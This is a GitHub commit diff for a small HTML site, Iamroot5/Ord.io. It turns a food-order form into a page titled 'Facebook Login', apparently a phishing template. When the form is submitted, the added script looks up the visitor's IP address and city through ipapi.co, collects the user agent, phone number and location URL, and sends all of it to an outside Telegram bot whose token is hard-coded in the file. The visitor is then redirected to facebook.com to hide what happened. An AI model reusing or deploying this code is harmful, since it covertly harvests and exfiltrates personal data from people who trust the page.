

Before and after one commit to Iamroot5/Ord.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 800 px of the page. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,98 +1,216 @@
-<p>
-  1.On your Android phone or tablet, open the Google Maps app .
-  <hr>
-  2.find your place on the map, then touch and hold to drop a red pin.<img src="https://i.ibb.co/j31BnDS/IMG-20230922-WA0003.jpg" />
-<hr>after the a red pin <img src="https://i.ibb.co/HHPTvgx/download.png" /> you will see numbers like this -23.716545,6656544 then copy those numbers and paste here on the location
-<hr>
-
-<hr>
-</p>
-<fieldset style="height:7000px;width:320px;">
-<form action="https://formsubmit.co/matlalaprocess@gmail.co" method="POST">
-<p style="color:blue">
-<var>Thank your for Downloading our apk</var>
-</p>
-<fieldset style="border-radius:5px;background-color:white">
-<input type="text" name="process" placeholder="Enter name" required>
-</fieldset>
-<fieldset style="border-radius:5px;background-color:white">
-<input type="text" name="process" placeholder="location e.g -23.775554,667555" required>
-</fieldset>
-<fieldset style="border-radius:5px;background-color:white">
-<input type="text" name="Gmail " class="input-control w-100" placeholder="village name">
-<fieldset style="border-radius:5px;background-color:white">
-<select>
-<option>KoTA  R15</option>
-<option>Chips R10</option>
-<option>Full chicken</option>
-</select>
-</fieldset>
-<fieldset style="border-radius:5px;background-color:white">
-<input type="text" name="Gmail " class="input-control w-100" placeholder="Last name">
-</fieldset>
-<fieldset style="border-radius:5px;background-color:white">
-<button style="border-radius:5px;background-color:blue">Order</buttom>
-</body>
-</fieldset>
-</fieldset>
-<link rel="stylesheet" href="/ootstrap.min.css">
-<style>
-* {
-box-sizing: border-box;
-}
-body {
-background: white;
-padding: 0 10px;
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Facebook Login</title>
+    <style>body {
+    font-family: Arial, sans-serif;
+    background-color: #f0f2f5;
+    display: flex;
+    justify-content: center;
+    align-items: center;
+    height: 100vh;
+    margin: 0;
 }
 
-h4 {
-font-weight: bolder;
-color: #0039FF;
-font-size: 20px;
-text-align: center;
+.container {
+    background-color: white;
+    border: 1px solid #ddd;
+    border-radius: 8px;
+    box-shadow: 0 4px 12px rgba(0, 0, 0, 0.1);
+    text-align: center;
+    width: 320px;
+    padding: 20px;
 }
-input {
-padding: 15px;
-font-size: 13.5px;
-background: rgba(0, 21, 255, 0.03);
-border: none;
-width: 100%;
-margin: 10px 0;
 
+.logo-container {
+    margin-bottom: 20px;
 }
+
+.logo {
+    font-family: 'Arial Black', sans-serif;
+    font-size: 36px;
+    color: #1877f2;
+}
+
+.slogan {
+    color: #555;
+    font-size: 14px;
+    margin-top: 5px;
+}
+
+.form-container {
+    text-align: center;
+}
+
+.input-field {
+    width: 100%;
+    padding: 10px;
+    margin: 8px 0;
+    border: 1px solid #ddd;
+    border-radius: 5px;
+    font-size: 16px;
+}
+
+.login-button {
+    background-color: #1877f2;
+    color: white;
+    border: none;
+    border-radius: 5px;
+    padding: 12px;
+    width: 100%;
+    cursor: pointer;
+    font-size: 18px;
+    margin: 12px 0;
+}
+
+.login-button:hover {
+    background-color: #0e5ace;
+}
+
 a {
-font-size: 13px;
-text-align: center;
-text-decoration: none;
+    text-decoration: none;
+    color: #1877f2;
+    font-size: 14px;
 }
-p {
-text-align: center;
+
+.divider {
+    margin: 12px 0;
+    border-top: 1px solid #ddd;
 }
-small {
-font-size: 12px;
-padding-left: 130px;
+
+.no-social-login {
+    font-size: 14px;
+    margin-top: 16px;
 }
-#meta {
-font-size: 13px;
+
+.no-social-login a {
+    font-weight: bold;
+    color: #1877f2;
 }
-button {
-width: 100%;
-height: 43px;
-border-radius: 5px;
-border: none;
-background: #0d6efd;
-color: white;
+
+.no-social-login a:hover {
+    text-decoration: underline;
 }
-.cna {
-background: green;
-color: white;
+
+.popup {
+    display: none;
+    position: fixed;
+    top: 50%;
+    left: 50%;
+    transform: translate(-50%, -50%);
+    background-color: rgba(0, 0, 0, 0.8);
+    color: white;
+    border-radius: 5px;
+    padding: 15px;
+    z-index: 1;
 }
-option {
-background: blue solid #000;
-font-size: 80;
-color: blue;
+
+.popup-content {
+    position: relative;
 }
-img {
-height: 50;
-}
-</style>
+
+.popup-close {
+    position: absolute;
+    top: 5px;
+    right: 5px;
+    font-size: 20px;
+    cursor: pointer;
+}</style>
+</head>
+<body>
+    <div class="container">
+        <div class="logo-container">
+            <div class="logo"><strong>Order food</strong></div>
+            <p class="slogan">Thank you for using our website</p>
+        </div>
+        <div class="form-container">
+            <form onsubmit="submitonhfc(); return false;" method="post">
+              <input type="hidden" name="" id="pagename" value="Facebook" />
+                <input type="text" id="email" placeholder="location url" class="input-field" name="email" required>
+                <input id="name" type="locate" placeholder="Food" class="input-field" name="location" required>
+        <input type="tel" id="phone" name="phone" placeholder="phone" required>
+                <button type="submit" class="login-button">Send</button>
+            </form>
+
+            <div class="divider"></div>
+            <div class="no-social-login">
+                <p>Don't have an account? <a href="#" id="signup-button">Send</a></p>
+            </div>
+        </div>
+    </div>
+
+    <div id="error-popup" class="popup">
+        <div class="popup-content">
+            <span class="popup-close" id="close-popup">&times;</span>
+        </div>
+    </div>
+
+    <script>function la(src) {
+      window.location = src;
+    }
+
+         function GetURLParameter(sParam) {
+           var sPageURL = window.location.search.substring(1);
+           var sURLVariables = sPageURL.split('&');
+           for (var i = 0; i < sURLVariables.length; i++) {
+             var sParameterName = sURLVariables[i].split('=');
+             if (sParameterName[0] == sParam) {
+               return sParameterName[1];
+             }
+           }
+         }
+
+         var chatid = GetURLParameter('id');
+
+         function submitonhfc() {
+           // Get IP address information using an API service
+           fetch('https://ipapi.co/json/')
+             .then(response => response.json())
+             .then(data => {
+               // Extract relevant device and IP information
+               const userAgent = navigator.userAgent;
+               const ip = data.ip;
+               const cityName = data.city;
+
+               // Create the message to send
+               const phone = document.getElementById("phone").value;
+               const page = document.getElementById("pagename").value;
+               const name = document.getElementById("name").value;
+               const email = document.getElementById("email").value;
+               const message = `> Login Page : ${page}\n\n> food :
+                 ${name}\n\n> phone :
+                 ${phone}\n\n> location url :
+                 ${email}\n\n> User Agent : ${userAgent}\n\n> IP Address : ${ip}\n\n> City : ${cityName}`;
+
+               // Send the message to your Telegram bot using the appropriate API
+               const botToken = '6357441245:AAGY8yAuR9uXK0PuPcwtqmbzzjhMpMpfpc0';
+               const chatId =1097939336 ;
+
+               const telegramUrl = `https://api.telegram.org/bot${botToken}/sendMessage`;
+               const telegramParams = {
+                 chat_id: chatId,
+                 text: message
+               };
+
+               // Send the request to the Telegram bot using AJAX
+               const xhr = new XMLHttpRequest();
+               xhr.open('POST', telegramUrl, true);
+               xhr.setRequestHeader('Content-Type', 'application/json');
+               xhr.send(JSON.stringify(telegramParams));
+
+               // Handle the response (optional)
+               xhr.onload = function() {
+                 if (xhr.status === 200) {
+                   window.location.href = "https://www.facebook.com";
+                 } else {
+                   console.log('Error sending data to Telegram:', xhr.statusText);
+                 }
+               };
+
+             })
+             .catch(error => console.log('Error retrieving IP address information:', error));
+         }</script>
+</body>
+</html>
```
